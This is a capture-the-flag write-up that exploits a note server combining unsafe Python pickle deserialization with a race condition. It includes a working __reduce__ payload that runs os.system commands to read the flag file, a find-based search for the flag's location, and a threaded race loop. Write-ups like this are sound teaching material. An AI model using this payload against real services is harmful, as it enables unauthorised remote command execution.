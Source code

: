# Challenge `Pickles in a seri(al)ous race` writeup

- Vulnerability:
  - _Endpoint has a **race condition** vulnerability and **the pickle module is not secure**_
- Where:
  - _`pickle.loads(<note_content>)` endpoint_
- Impact:
  - _Allows to **run commands in the server's shell** by sending commands in notes_

## Steps to reproduce

Before doing the attack, we analyzed the code given `(server3.py)`. When the **Classy** mode is chosen to read, it uses the command `pickle.loads()` which is unsafe:

```python
    if action_choice == '0': # read
        note = pickle.loads(note_content)
        print(note)
```
It is important that when unpickling data, to be sure that it is 100% safe. Since we now know the target, its time to look into how we will going to exploit it.

In the classy mode, when writing the note it will perform the command `pickle.dumps()`, making the `loads` method safe to use later. However, there is an exception. When the note is written in the **Free** mode, it will not use the `dumps` method:

```python
elif action_choice == '1': # write
        with open(note_path, 'wb') as f:
            f.write(note_content.encode('utf8','surrogateescape'))
```
It will directly write in the file that has the **note_path.** This means that we can write a note in the **Free** mode and then read it in the **Classy** mode. This is the vulnerability that we will exploit.

The first thing we need to do is to create a note in the **Free** mode. We will use the following payload:

```python
class shell_access(object):
    def __reduce__(self):
        return (os.system, ('cat /home/ctf/flag', ))

bad_note = pickle.dumps(shell_access())
```
Note that we are using the `os.system` command to execute the `cat /home/ctf/flag` command and pickle it. This, when using the function `loads`, will print the contents of the file flag in the server's shell. It is relevant to say that before this command **we did not know the flag's location**.

To find it, we used the payload with the `find | grep flag` command obtaining the following result:

```bash
[...]
find: '/proc/3551/fdinfo': Permission denied
find: '/proc/3551/ns': Permission denied
find: '/root': Permission denied
/home/ctf/flag
/usr/lib/x86_64-linux-gnu/perl/5.22.1/bits/waitflags.ph
/sys/devices/platform/serial8250/tty/ttyS15/flags
[...]
```
Looking at the result, we can see that there is a file named flag with the path `/home/ctf/flag`, which is probably the flag that we are looking for.

The requests to the server are made in **parallel**. This means that the request to write the note and the request to read it will be made at the same time, having the possibility to read the note right after it is written.

```python
while True:
    Thread(target=partial (writes_script,)).start() 
    read_script()
```

Now, after a few loops, when trying to read the note on **Classy mode** the server will execute the command written on the **note** and it will respond with the content of the `flag`.


## Script
The script used can be found [here](pickles_serialous_race_poc.py)